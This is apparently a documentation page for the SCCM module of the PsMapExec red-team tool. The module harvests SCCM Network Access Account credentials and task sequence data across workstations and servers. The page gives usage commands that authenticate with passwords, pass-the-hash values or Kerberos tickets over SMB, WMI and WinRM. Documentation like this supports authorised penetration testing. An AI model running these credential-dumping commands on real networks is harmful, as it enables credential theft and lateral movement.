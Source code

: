 # SCCM

Dumps local SCCM secrets for Network Access Account credentials and Task sequence data. Collected information is automatically parsed and organized where it will be stored in `$PWD\PME\SCCM\`.

Uses a stripped down and revised version of [SharpSCCM](https://github.com/Mayyhem/SharpSCCM) for execution.

### **Supported Methods**

* SMB&#x20;
* SessionHunter (WMI)
* WMI&#x20;
* WinRM

### **Optional Parameters**

<table><thead><tr><th width="170">Parameter</th><th width="119.33333333333331">Value</th><th>Description</th></tr></thead><tbody><tr><td>-NoParse</td><td>N/A</td><td>Will ommit parsing output from each system.</td></tr><tr><td>-ShowOutput</td><td>N/A</td><td>Displays each targets output to the console</td></tr><tr><td>-SuccessOnly</td><td>N/A</td><td>Display only successful results</td></tr></tbody></table>

### Usage Examples

{% code overflow="wrap" %}
```powershell
# SMB execution with password authentication, targeting workstations
PsMapExec -Targets "Workstations" Method "SMB" -Username [User] -Password [Pass]     -Module SCCM

# WinRM execution with hash authentication, targeting servers
PsMapExec -Targets "Servers" -Username [User] -Hash [RC4/AES256/NTLM] -Module SCCM -Method "WinRM"

# WMI execution with Kerberos ticket authentication (Username not required)
PsMapExec -Targets "All" -Method "WMI" -Ticket [doI..] -Module SCCM
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
